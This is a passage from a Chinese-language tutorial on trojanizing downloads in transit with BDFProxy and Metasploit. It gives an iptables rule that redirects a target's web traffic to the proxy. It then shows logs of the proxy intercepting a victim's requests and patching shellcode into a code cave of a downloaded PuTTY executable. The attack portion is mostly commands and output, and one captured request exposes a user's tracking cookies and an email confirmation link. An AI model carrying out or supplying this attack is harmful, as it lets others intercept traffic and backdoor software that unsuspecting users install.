 配置完毕之后，把Metasploit的服务打开，我们接下来要开启工具了：

```
iptables -A PREROUTING -t nat -i eth0 -p tcp -m multiport --dports 80,443 -j REDIRECT --to-port 8080

```

以上是第一步：将HTTP/HTTPS流量转发至bdfproxy

```
root@Alkaid-PC:~# bdfproxy 
[!] Writing resource script.
[!] Resource writen to bdfproxy_msf_resource.rc
[!] Starting BDFProxy
[!] Author: @midnite_runr | the[.]midnite).(runr<at>gmail|.|com
********** REQUEST **********
[*] HOST:  203.208.48.142
[*] PATH:  /__utm.gif?utmwv=5.6.5&utms=22&utmn=842124717&utmhn=www.slideshare.net&utmt=event&utme=5(Newsfeed*Featured_time_on_page*440)8(member_type)9(FREE)11(1)&utmcs=UTF-8&utmsr=1920x1080&utmvp=1903x971&utmsc=24-bit&utmul=zh-cn&utmje=1&utmfl=18.0%20r0&utmdt=lxj616%E2%80%99s%20Newsfeed&utmhid=1466934019&utmr=http%3A%2F%2Fmail.qq.com%2Fcgi-bin%2Freadtemplate%3Ft%3Dsafety%26check%3Dfalse%26gourl%3Dhttp%253A%252F%252Fwww.slideshare.net%252Fconfirm%252FODEwNDQ5Njg7MDA2Zjg0OWMzNjZiZmRmYTc0YWIwYzQyNzcyZGIzMjhjZTA2YmI5MA%253D%253D%253Futm_source%253Dconfirmemail%2526utm_medium%253Dssemail%2526utm_campaign%253Dconfirm_email%26subtemplate%3Dgray%26evil%3D0&utmp=%2Flxj616%2Fnewsfeed%3Fredirect%3D1&utmht=1439103172080&utmac=UA-2330466-1&utmni=1&utmcc=__utma%3D186399478.1272612003.1439088302.1439089490.1439090092.3%3B%2B__utmz%3D186399478.1439089490.2.2.utmcsr%3Dgoogle%7Cutmccn%3D(organic)%7Cutmcmd%3Dorganic%7Cutmctr%3D(not%2520provided)%3B&utmjid=&utmu=6RCAACAAAAAAAAAAAAAAAAAE~
********** END REQUEST **********

```

以上是第二步：开启bdfproxy，如果您配置正确，在目标设备访问网页时可以看到bdfproxy中截获的REQUEST如上所示

```
********** REQUEST **********
[*] HOST:  221.204.160.47
[*] PATH:  /sw-search-sp/soft/78/15699/putty_V0.63.0.0.43510830.exe
********** END REQUEST **********
========== RESPONSE ==========
[*] HOST:  221.204.160.47
[*] PATH:  /sw-search-sp/soft/78/15699/putty_V0.63.0.0.43510830.exe
[*] In the backdoor module
[*] Checking if binary is supported
[*] Gathering file info
[*] Reading win32 entry instructions
[*] Looking for and setting selected shellcode
[*] Creating win32 resume execution stub
[*] Looking for caves that will fit the minimum shellcode length of 638
[*] All caves lengths:  (638,)
############################################################
The following caves can be used to inject code and possibly
continue execution.
**Don't like what you see? Use jump, single, append, or ignore.**
############################################################
[*] Cave 1 length as int: 638
[*] Available caves: 
1. Section Name: None; Section Begin: None End: None; Cave begin: 0x294 End: 0xffc; Cave Size: 3432
2. Section Name: .rdata; Section Begin: 0x57000 End: 0x73000; Cave begin: 0x7262c End: 0x73000; Cave Size: 2516
3. Section Name: None; Section Begin: None End: None; Cave begin: 0x743d0 End: 0x7500a; Cave Size: 3130
**************************************************
[!] Enter your selection: 2
[!] Using selection: 2
[*] Changing Section Flags
[*] Patching initial entry instructions
```